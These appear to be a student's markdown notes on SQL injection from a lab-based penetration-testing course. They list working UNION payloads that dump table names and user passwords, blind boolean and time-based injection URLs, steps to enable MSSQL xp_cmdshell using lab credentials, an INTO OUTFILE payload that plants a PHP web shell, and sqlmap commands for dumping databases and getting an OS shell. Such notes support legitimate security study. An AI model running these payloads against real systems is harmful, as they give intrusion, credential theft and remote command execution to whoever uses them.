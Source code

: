 can query information_schema table to find info on other tables
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //
```

### Blind SQLi

out of band -- outside the web app

can do this via url enumeration
```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- // boolean based
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- // time-based, will know if the user exists if the app hangs
```
look for a `?debug=true` option in source code

## Manual Code Execution

### MSSQL -- xp_cmdshell

first need to enable xp_cmdshell

```
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```

can use SELECT INTO_OUTFILE for RCE
combined with php system command

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

### Automated attacks

use sqlmap
-u url
-p parameter we want to test
```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
```

can use the --dump param to dump database, creds, etc
--os-shell provides us with full interactive shell

```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
```
